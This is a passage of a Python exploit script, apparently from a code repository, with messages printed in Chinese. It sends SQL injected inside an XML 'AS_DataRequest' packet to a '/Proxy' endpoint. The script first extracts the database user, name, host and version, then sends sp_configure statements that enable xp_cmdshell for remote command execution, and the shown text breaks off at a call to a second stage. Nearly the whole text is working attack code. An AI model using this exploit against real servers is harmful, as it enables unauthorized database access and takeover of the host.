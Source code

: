 ```
    print('+  \033[36mcmd    >>> ipconfig                                                \033[0m')
    print('+------------------------------------------')

def POC_1(target_url):
    check_url = target_url + "/Proxy"
    headers = {
        "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
        "Content-Type": "application/x-www-form-urlencoded"
    }
    data = """cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">select 1,user,db_name(),host_name(),@@version</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>"""
    try:
        print("\033[32m[o] 正在执行SQL语句:select 1,user,db_name(),host_name(),@@version...\033[0m")
        response = requests.post(url=check_url, headers=headers, data=data, timeout=10)

        row_1 = '<ROW COLUMN1="1"'
        row_2 = r'COLUMN2="(.*?)"'
        row_3 = r'COLUMN3="(.*?)"'
        row_4 = r'COLUMN4="(.*?)"'
        row_5 = r'COLUMN5="(.*?)"'

        if row_1 in response.text and "服务器错误信息：null" not in response.text:
            db_user = re.findall(row_2, response.text)[0]
            db_name = re.findall(row_3, response.text)[0]
            db_host = re.findall(row_4, response.text)[0]
            db_vers = re.findall(row_5, response.text)[0]
            print("\033[32m[o] 存在漏洞，漏洞响应为:\033[0m")
            print("\033[32m >> 数据库用户为:{}\033[0m".format(db_user))
            print("\033[32m >> 数据库名为:{}\033[0m".format(db_name))
            print("\033[32m >> 数据库主机名为:{}\033[0m".format(db_host))
            print("\033[32m >> 数据库版本为:{}\033[0m".format(db_vers))
            return db_name
        else:
            print("\033[31m[x] 漏洞已被修复 \033[0m")
            sys.exit(0)
    except:
        print("\033[31m[x] 请求失败 \033[0m")
        sys.exit(0)

def xp_cmdshell_open(target_url, db_name):
    open_sql = ["use {}".format(db_name),"exec sp_configure 'show advanced options',1","reconfigure","exec sp_configure 'xp_cmdshell',1","reconfigure"]
    num = 1
    for sql in open_sql:
        open_url = target_url + "/Proxy"
        headers = {
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = 'cVer=9.8.0&dp=<?xml version="1.0" encoding="GB2312"?><R9PACKET version="1"><DATAFORMAT>XML</DATAFORMAT><R9FUNCTION><NAME>AS_DataRequest</NAME><PARAMS><PARAM><NAME>ProviderName</NAME><DATA format="text">DataSetProviderData</DATA></PARAM><PARAM><NAME>Data</NAME><DATA format="text">{}</DATA></PARAM></PARAMS></R9FUNCTION></R9PACKET>'.format(sql)
        try:
            print("\033[32m[o] 正在执行SQL语句:{}...\033[0m".format(sql))
            response = requests.post(url=open_url, headers=headers, data=data, timeout=10)
            num = num + 1
            if num == 5 :
                POC_2(target_url, db_name)
```